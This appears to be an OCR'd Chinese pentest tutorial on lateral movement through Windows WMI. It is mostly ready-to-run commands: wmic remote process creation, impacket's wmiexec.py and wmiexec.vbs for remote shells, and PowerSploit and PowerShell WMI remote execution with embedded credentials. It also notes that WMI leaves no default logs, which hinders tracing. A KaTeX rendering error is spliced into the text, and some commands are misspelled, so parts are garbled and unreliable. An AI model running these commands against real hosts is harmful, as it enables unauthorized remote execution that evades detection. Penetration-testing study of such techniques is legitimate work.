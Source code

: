 # 6\. Wmic的使用

WMI全名为（Windows Management Instrumention）。从windows98开始，windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。自PsExec在内网中被严格监控后，越来越多的反病毒厂商将PsExec加入黑名单，于是攻击者逐渐开始使用WMI进行横向移动。通过渗透测试发现，在使用wmiexec进行横向移动时，windows操作系统默认不会将WMI的操作记录在日志中，因为在这个过程不会产生日志，所以，对网络管理员来说增加了攻击溯源的成本，而对攻击者来说，起恶意行为被发现的可能性有所降低，隐蔽性有所提高。由此，越来越多的APT开始使用WMI进行攻击

1，基本命令
a) 在命令环境输入命令：
wmic /node:192.168.150.7 /user:ndsec-pc\\ndsec /password:ndsec
Process call create “cmd.exe /c ipconfig >c:\\ip.txt”
b) 建立好ipc连接后，使用type读取执行结果：type \\192.168.63.131\\c$\ip.txt c) 接下来使用wmic远程命令，在远程系统中启动Windows Management Instrumention服务（目标服务器需要开启135端口，wmic会以管理员权限在 远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法连接，此 外wmic命令没有回显，需要使用ipc$

KaTeX parse error: Undefined control sequence: \\ip at position 1: \\̲i̲p̲.txt c) 接下来使用wm…

和type命令来读取信息

在kali中下载安装impacket
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
Python setup.py install
输入命令获取目标主机的shell
Wmiexec.py administrator:tys@123!@192.168.150.12(账号:密码@目标主机
ip)

3，wmiexec.vbs
Wmiexec.vbs脚本通过VBS调用WMI来模拟PsExec的功能，wmiexec.vbs可以在远程系统中执行命令并进行回显，获得远程主机的半交互式shell。
命令：
cscript.exe //nologo wmic.vbs /shell 192.168.150.12 administrator tys@123!
输入以下命令，在远程主机上执行单条命令
Cscript.exe wmic.vbs /cmd 192.168.150.12 administrator tys@123!
“ipconfig”
对于运行时间较长的命令，例如ping\\systeminfo等需要添加“-wait 500”或者
更长的时间参数，在运行nc等不需要输出结果但需要一直运行的进程时，如果使用
“-persist”参数就不需要使用tasklist命令来远程结束进程。

4，invoke-wmiCommand
invoke-wmiCommand.ps1脚本包含在PowerSploit工具包中，该脚本主要通过
PowerShell调用WMI来远程执行命令，因此本质上还是在利用WMI。
导入invoke-wmiCommand.ps1：import-module invoke-wmiCommand.ps1
$user=“administrator” $password=ConvertTo-SecureString -String “ndsec”-AsplainText -force $cred=New-Object -TypeName System.Management.Automation.PSCredential -
ArgumentList $user,$password
$Remote=Invoke-WmiCommand -Payload {ipconfig} -Credential $cred - ComputerName 192.168.150.7 $Remote.payloadOutput //输出结果

5，invoke-WMIMethod
利用powershell自带的invoke-WMIMethod,可以在远程系统中执行命令和指定程序在powershell命令环境中执行如下命令，可以以非交互式的方式执行命令，但不会
回显执行结果。
$user=“administrator” $password=ConvertTo-SecureSrtring –String “tys@123!” –AsplainText –force $cred=New-Object -TypeName System.Management.Automation.PSCredential -
ArgumentList $user,$password
invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList
“calc.exe” -ComputerName “192.168.150.12” -Credential $cred
